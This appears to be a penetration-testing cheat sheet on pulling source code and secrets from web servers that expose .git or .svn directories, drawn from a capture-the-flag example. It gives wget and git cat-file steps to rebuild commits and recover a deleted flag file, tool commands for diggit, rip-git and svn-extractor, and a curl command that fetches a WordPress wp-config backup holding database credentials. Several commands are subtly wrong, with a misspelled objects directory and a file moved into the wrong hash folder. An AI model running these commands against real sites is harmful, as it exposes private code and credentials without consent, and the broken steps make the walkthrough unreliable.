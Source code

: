 # GIT - Source management

## Github example with a .git
1. Check 403 error (Forbidden) for .git or even better : directory listing

2. Git saves all informations in log file .git/logs/HEAD (try 'head' too)
```
0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
```

3. Access to the commit based on the hash -> a directory name (first two signs from hash) and filename (rest of it).git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c,
```
# create a .git directory
git init test
cd test/.git

# download the file
wget http://xxx.web.xxx.com/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
mkdir .git/object/26
mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

# display the content of the file
git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
	tree 323240a3983045cdc0dec2e88c1358e7998f2e39
	parent 15ca375e54f056a576905b41a417b413c57df6eb
	author Michael <michael@easyctf.com> 1489390329 +0000
	committer Michael <michael@easyctf.com> 1489390329 +0000
	Initial.
```

4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
```
wget http://xxx.web.xxx.com/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
mkdir .git/object/32
mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
	040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
	100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
	040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
	100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
	040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
```

5. Read the data (flag.txt)
```
wget http://xxx.web.xxx.com/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
mkdir .git/object/cb
mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
```



## Automatic way : diggit.py
```
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

## Alternative way : rip-git
```
perl rip-git.pl -v -u "http://edge1.web.*****.com/.git/"   

git cat-file -p 07603070376d63d911f608120eb4b5489b507692  
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```




# SVN - Source management
## SVN example (Wordpress)
```
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database
http://server/path_to_vulnerable_site/.svn/wc.db
```
INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
```

2. Download interesting files
remove \$sha1\$ prefix
add .svn-base postfix
use first two signs from hash as folder name inside pristine/ directory (94 in this case)
create complete path, which will be: http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base


## Automatic way -
```
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url “url with .svn available”
```

## Thanks to
* bl4de, https://github.com/bl4de/research/tree/master/hidden_directories_leaks
* bl4de, https://github.com/bl4de/security-tools/tree/master/diggit
